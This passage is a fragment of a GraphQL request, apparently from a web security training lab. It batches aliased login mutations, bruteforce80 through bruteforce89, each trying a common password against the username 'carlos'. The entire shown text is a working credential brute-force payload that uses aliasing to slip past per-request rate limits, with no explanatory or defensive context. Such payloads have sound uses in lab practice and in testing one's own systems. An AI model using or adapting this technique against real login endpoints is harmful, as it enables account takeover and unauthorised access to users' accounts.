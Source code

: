 ```plain
        token
        success
    }


bruteforce80:login(input:{password: "ashley", username: "carlos"}) {
        token
        success
    }


bruteforce81:login(input:{password: "nicole", username: "carlos"}) {
        token
        success
    }


bruteforce82:login(input:{password: "chelsea", username: "carlos"}) {
        token
        success
    }


bruteforce83:login(input:{password: "biteme", username: "carlos"}) {
        token
        success
    }


bruteforce84:login(input:{password: "matthew", username: "carlos"}) {
        token
        success
    }


bruteforce85:login(input:{password: "access", username: "carlos"}) {
        token
        success
    }


bruteforce86:login(input:{password: "yankees", username: "carlos"}) {
        token
        success
    }


bruteforce87:login(input:{password: "987654321", username: "carlos"}) {
        token
        success
    }


bruteforce88:login(input:{password: "dallas", username: "carlos"}) {
        token
        success
    }


bruteforce89:login(input:{password: "austin", username: "carlos"}) {
        token
        success
    }
```